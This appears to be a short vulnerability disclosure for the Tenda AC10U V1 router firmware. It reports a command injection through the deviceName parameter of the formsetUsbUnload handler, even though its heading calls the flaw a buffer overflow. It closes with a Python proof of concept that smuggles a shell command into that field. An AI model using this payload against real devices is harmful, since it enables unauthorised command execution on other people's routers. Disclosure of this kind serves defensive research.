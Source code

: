 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a command injection in httpd/formsetUsbUnload

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](20.png)

get value from deviceName ,then call doSystemCmd, can execute arbitrary command.




## POC
```
url = "http://192.168.1.13/goform/formsetUsbUnload"
payload = ';ls > /tmp/1;'

r = requests.post(url, data={'deviceName': payload})
``` 
